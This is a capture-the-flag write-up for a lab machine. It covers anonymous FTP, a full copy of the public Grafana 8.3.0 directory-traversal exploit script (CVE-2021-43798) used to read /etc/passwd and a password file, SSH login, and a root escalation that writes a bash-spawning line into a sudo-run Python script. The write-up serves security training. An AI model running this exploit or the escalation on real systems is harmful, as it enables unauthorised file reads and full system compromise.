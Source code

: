 ﻿# ENUMERATION


## OPEN PORTS

![Pasted image 20241025014342.png](../../IMAGES/Pasted%20image%2020241025014342.png)


```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![Pasted image 20241025014539.png](../../IMAGES/Pasted%20image%2020241025014539.png)
We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![Pasted image 20241025014619.png](../../IMAGES/Pasted%20image%2020241025014619.png)

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![Pasted image 20241025014823.png](../../IMAGES/Pasted%20image%2020241025014823.png)

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

## FUZZING

### PORT 80 WEBSITE

![Pasted image 20241025014929.png](../../IMAGES/Pasted%20image%2020241025014929.png)

Found a `/maintenance.html` directory that may be useful, let's visit it:

![Pasted image 20241025015023.png](../../IMAGES/Pasted%20image%2020241025015023.png)

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website



### PORT 3000 WEBSITE

![Pasted image 20241025013600.png](../../IMAGES/Pasted%20image%2020241025013600.png)
A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![Pasted image 20241025013631.png](../../IMAGES/Pasted%20image%2020241025013631.png)

Default page is a login page, something interest I found was this:


![Pasted image 20241025015156.png](../../IMAGES/Pasted%20image%2020241025015156.png)


Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![Pasted image 20241025015326.png](../../IMAGES/Pasted%20image%2020241025015326.png)

Perfect, found exactly what I needed, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
 "alertlist",
 "annolist",
 "barchart",
 "bargauge",
 "candlestick",
 "cloudwatch",
 "dashlist",
 "elasticsearch",
 "gauge",
 "geomap",
 "gettingstarted",
 "grafana-azure-monitor-datasource",
 "graph",
 "heatmap",
 "histogram",
 "influxdb",
 "jaeger",
 "logs",
 "loki",
 "mssql",
 "mysql",
 "news",
 "nodeGraph",
 "opentsdb",
 "piechart",
 "pluginlist",
 "postgres",
 "prometheus",
 "stackdriver",
 "stat",
 "state-timeline",
 "status-histor",
 "table",
 "table-old",
 "tempo",
 "testdata",
 "text",
 "timeseries",
 "welcome",
 "zipkin"
]

def exploit(args):
 s = requests.Session()
 headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

 while True:
 file_to_read = input('Read file > ')

 try:
 url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
 req = requests.Request(method='GET', url=url, headers=headers)
 prep = req.prepare()
 prep.url = url
 r = s.send(prep, verify=False, timeout=3)

 if 'Plugin file not found' in r.text:
 print('[-] File not found\n')
 else:
 if r.status_code == 200:
 print(r.text)
 else:
 print('[-] Something went wrong.')
 return
 except requests.exceptions.ConnectTimeout:
 print('[-] Request timed out. Please check your host settings.\n')
 return
 except Exception:
 pass

def main():
 parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
 parser.add_argument('-H',dest='host',required=True, help="Target host")
 args = parser.parse_args()

 try:
 exploit(args)
 except KeyboardInterrupt:
 return


if __name__ == '__main__':
 main()
 sys.exit(0)
 
```


# EXPLOITATION

## LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![Pasted image 20241025015835.png](../../IMAGES/Pasted%20image%2020241025015835.png)
And it works correctly, let's read our `/tmp/pass.txt` file!

![Pasted image 20241025015908.png](../../IMAGES/Pasted%20image%2020241025015908.png)

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```


Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![Pasted image 20241025020149.png](../../IMAGES/Pasted%20image%2020241025020149.png)

Nice, we got access, let's start with the privilege escalation.

# PRIVILEGE ESCALATION



## SUDO -L

![Pasted image 20241025020240.png](../../IMAGES/Pasted%20image%2020241025020240.png)

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![Pasted image 20241025020359.png](../../IMAGES/Pasted%20image%2020241025020359.png)

Something simple, just a print statement on it, let's check if we can write in it:

![Pasted image 20241025020446.png](../../IMAGES/Pasted%20image%2020241025020446.png)

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![Pasted image 20241025020740.png](../../IMAGES/Pasted%20image%2020241025020740.png)

And just like that, the CTF is done!
